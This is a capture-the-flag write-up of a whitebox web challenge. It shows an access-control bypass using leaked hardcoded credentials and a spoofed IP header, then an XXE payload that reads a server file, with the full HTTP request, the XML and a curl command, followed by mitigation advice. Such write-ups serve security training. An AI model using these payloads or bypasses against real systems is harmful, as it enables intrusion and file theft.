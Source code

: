 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they can be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- kali linux (OS)
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**

![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**

 Since its a whitebox test,configuration files where provided in a zip file.
 
  
![c](https://github.com/user-attachments/assets/d87c1c3b-c666-4a45-86d9-9b3cccfd0ad1)



  *Panel.php looks like an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
**Lets open up the panel.php file**

  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
- We have admin username and password
  
- A whole ip address and what looks like a vpn server name....hmmm

**Lets take out the big guns now......Burpsuite!**

  --> Intercept request with proxy
  
  --> Insert credentials and spoofed IP in HTTP Header.
  
  --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats happening is that the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

**Classification:** XML External Entity (XXE) Injection

**Impact:** High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body 
 
> payload from PayloadsAllThings [View Payload](https://github.com/Mumbi-Sec/PayloadsAllThings/blob/b9e847decb60d436f632a33f48f68fabaa324900/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
 



![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)


 *Look at this server.....so..**responsive** lol*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

    POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
    Host: challenge.zedbounty.com

    X-VIVACELL-VPN: 41.18.611.104

    Content-Type: application/xml

    Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


**Alternative:**

you can also use curl by pasting your payload in a file, then use the following command on your terminal:

       curl -X POST "https://challenge.zedbounty.com/panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123" -H "X-VIVACELL-VPN: 41.18.611.104" -H "Content-Type: application/xml" --data-binary @payloadfile.xml



### 4. Mitigation

- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned

- Bypassing directory access controls using HTTP Header requests.
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- Never trust user supplied headers to validate ip addresses!

### Thank you.....

## Credits and sources

https://zedbounty.com/

https://portswigger.net/web-security/xxe
